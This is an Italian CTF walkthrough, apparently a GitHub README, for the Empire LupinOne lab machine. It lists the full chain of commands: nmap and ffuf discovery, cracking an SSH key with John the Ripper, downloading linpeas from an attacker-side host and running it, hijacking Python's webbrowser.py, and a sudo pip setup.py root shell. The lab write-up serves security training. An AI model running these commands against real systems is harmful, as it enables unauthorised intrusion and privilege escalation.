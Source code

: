 # 🛡️ CyberCerberus: Seconda CTF Bonus - BuildWeek2

Benvenuto nel walkthrough professionale del CTF **Empire LupinOne**! Questo documento rappresenta il lavoro collaborativo del **TeamCyberCerberus**, che ha unito le proprie competenze per completare con successo il challenge. 💻

---

## 🔍 **Pentesting Methodology**

### 1️⃣ **Network Scanning**
- **Identificazione dell'indirizzo IP target**:
  ```bash
  sudo nmap -p- -Pn -O -sV -sC -sS 192.168.1.7
  ```
- **Risultati**:
  - **Porta 80 (HTTP)**: Server web attivo. 

---

### 2️⃣ **Enumeration**

#### 🕵️‍♂️ Analisi del sito web
- Accesso alla porta 80 per esplorare il contenuto.
- Individuazione di `/robots.txt` che suggerisce una directory nascosta: `/~myfiles`.

#### ⚡ Fuzzing con FFUF
- Ricerca di directory nascoste:
  ```bash
  ffuf -u http://192.168.1.7/~FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c
  ```
- Directory scoperta: `/~secret`.

---

### 3️⃣ **Exploitation**

#### 🔐 Scoperta e decifrazione di chiavi SSH
- File SSH privato individuato in `/~secret`.
- Ricerca di file aggiuntivi con FFUF:
  ```bash
  ffuf -u http://192.168.1.7/~secret/.FUZZ -e .py,.java,.php,.dart,.rar,.zip,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c -ic -fc 403
  ```
- File trovato: `victim_id_rsa`.

#### 🛠️ Conversione e brute force della chiave SSH
- Conversione della chiave per John the Ripper:
  ```bash
  ssh2john victim_id_rsa > hash_password
  ```
- Brute force con John the Ripper:
  ```bash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash_password
  ```
  - **Password trovata**: `P@55w0rd!`

#### 🚀 Accesso SSH
- Connessione alla macchina target:
  ```bash
  ssh -i victim_id_rsa icex64@192.168.1.7
  ```
- **Flag utente**: `user.txt` 🎉.

---

### 4️⃣ **Privilege Escalation**

#### 🧑‍💻 Verifica dei privilegi di `sudo`
- Analisi dei permessi:
  ```bash
  sudo -l
  ```
  - Individuato file vulnerabile: `/home/arsene/heist.py`.

#### 🔍 Analisi con linpeas
- Esecuzione del tool:
  ```bash
  wget 192.168.1.8/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- Individuato file Python `webbrowser.py`:
  ```bash
  nano /usr/lib/python3.9/webbrowser.py
  ```
  - **Modifica**: aggiunta di `os.system("/bin/bash")`.

#### 🐍 Escalation con script Python
- Escalation dei privilegi:
  ```bash
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```
  - Accesso come utente `arsene`.

#### 📦 Escalation finale con pip
- Esecuzione exploit di pip:
  ```bash
  TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF
  ```
  - **Accesso root** 🎉.

---

## 🏆 **Root Flag**

- Lettura del flag root:
  ```bash
  cat /root/root.txt
  ```

---

## 🎯 **Conclusione**

Il CTF **Empire LupinOne** è stato completato con successo grazie alla sinergia del **TeamCyberCerberus**! 🔓 Questo walkthrough evidenzia l'importanza di strumenti come **nmap**, **FFUF**, **linpeas**, e tecniche di privilege escalation come **pip** e Python library hijacking. 💻

Grazie per aver seguito questa guida e per il supporto al nostro team! 💪
